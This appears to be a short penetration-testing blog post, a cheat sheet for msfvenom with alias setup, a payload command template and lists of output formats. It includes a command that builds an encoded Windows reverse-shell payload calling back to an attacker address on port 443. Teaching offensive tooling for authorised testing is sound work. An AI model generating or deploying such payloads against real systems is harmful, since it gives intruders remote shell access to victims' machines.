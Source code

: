 ```yaml
---
layout: post
title: "The msfvenom cheat sheet"
date: 2016-10-22
---
```

Here are simple msfvenom commands to help in quick payload generation.  

I love the msfvenom aliases that g0tmi1k setup in his [os-scripts](https://github.com/g0tmi1k/os-scripts). These will help in finding the correct payloads, encoders, and formats.  
Place these aliases in ~/.bash_aliases:
>**`alias msfvenom-list-all='cat ~/.msf4/msfvenom/all'`**  
>**`alias msfvenom-list-nops='cat ~/.msf4/msfvenom/nops'`**  
>**`alias msfvenom-list-payloads='cat ~/.msf4/msfvenom/payloads'`**  
>**`alias msfvenom-list-encoders='cat ~/.msf4/msfvenom/encoders'`**  
>**`alias msfvenom-list-formats='cat ~/.msf4/msfvenom/formats'`**  

Finish the setup by running the following:
> **`mkdir -p ~/.msf4/msfvenom/`**  
> **`msfvenom --list > ~/.msf4/msfvenom/all`**  
> **`msfvenom --list nops > ~/.msf4/msfvenom/nops`**  
> **`msfvenom --list payloads > ~/.msf4/msfvenom/payloads`**  
> **`msfvenom --list encoders > ~/.msf4/msfvenom/encoders`**  
> **`msfvenom --help-formats > ~/.msf4/msfvenom/formats`**  

A basic msfvenom command.
> **`msfvenom -p <payload> LHOST=<Your IP> LPORT=<Your Port> -f <format> -e <encoder> -b <bad characters>`**  

A reverse shell example for windows that connects to attacker IP 10.10.10.10 on port 443. This is formatted in c and encode in x86/shikata_ga_nai with bad characters \x00 and \x04.  
> **`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x04"`**  

Dont forget that we can build **exe**, **war**, **vbs**, and **asp** executables. Current formats supported by msfvenom are as follows:  
> **`Executable formats`**  
>> **`asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war`**  

> **`Transform formats`**  
>> **`bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript`**  
